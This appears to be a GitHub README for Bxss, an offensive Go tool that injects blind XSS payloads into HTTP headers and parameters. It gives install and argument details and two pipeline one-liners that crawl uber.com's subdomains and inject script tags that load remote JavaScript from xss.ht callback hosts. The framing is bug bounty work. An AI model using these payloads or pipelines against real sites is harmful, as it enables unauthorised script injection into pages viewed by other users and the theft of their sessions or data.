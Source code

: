 
<h1 align="center">
  <br>
<img src="https://www.secjuice.com/content/images/2018/09/blinded-drib.jpg" width="200px" alt="Bxss">
</h1>

# 😎 Bxss 😎
**A Blind XSS Injector tool**



[![Image from Gyazo](https://i.gyazo.com/61c052718748373ff2d267280e2e69cb.gif)](https://gyazo.com/61c052718748373ff2d267280e2e69cb)

### Features

- Inject Blind XSS payloads into custom headers
- Inject Blind XSS payloads into parameters
- Uses Different Request Methods (PUT,POST,GET,OPTIONS) all at once
- Tool Chaining
- Really fast
- Easy to setup


### Install


```
$ go install github.com/ethicalhackingplayground/bxss@latest
```

### Arguments
```


          ____
         |  _ \
         | |_) |_  _____ ___
         |  _ <\ \/ / __/ __|
         | |_) |>  <\__ \__ \
         |____//_/\_\___/___/


        -- Coded by @z0idsec --
  -appendMode
        Append the payload to the parameter
  -concurrency int
        Set the concurrency (default 30)
  -header string
        Set the custom header (default "User-Agent")
 -headerFile string
    	Path to file containing headers to test
  -parameters
        Test the parameters for blind xss
  -payload string
        the blind XSS payload
-payloadFile string
    	Path to file containing payloads to test

        
```

[![Image from Gyazo](https://i.gyazo.com/c3f18487b015767f011d0845409c6e5b.gif)](https://gyazo.com/c3f18487b015767f011d0845409c6e5b)


### Blind XSS In Parameters
**`$ subfinder uber.com | gau | grep "&" | bxss -appendMode -payload '"><script src=https://hacker.xss.ht></script>' -parameters`**

### Blind XSS In X-Forwarded-For Header

**`$ subfinder uber.com | gau | bxss -payload '"><script src=https://z0id.xss.ht></script>' -header "X-Forwarded-For"`**



**If you get a bounty please support by buying me a coffee**

<br>
<a href="https://www.buymeacoffee.com/krypt0mux" target="_blank"><img src="https://www.buymeacoffee.com/assets/img/custom_images/orange_img.png" alt="Buy Me A Coffee" style="height: 41px !important;width: 174px !important;box-shadow: 0px 3px 2px 0px rgba(190, 190, 190, 0.5) !important;-webkit-box-shadow: 0px 3px 2px 0px rgba(190, 190, 190, 0.5) !important;" ></a>


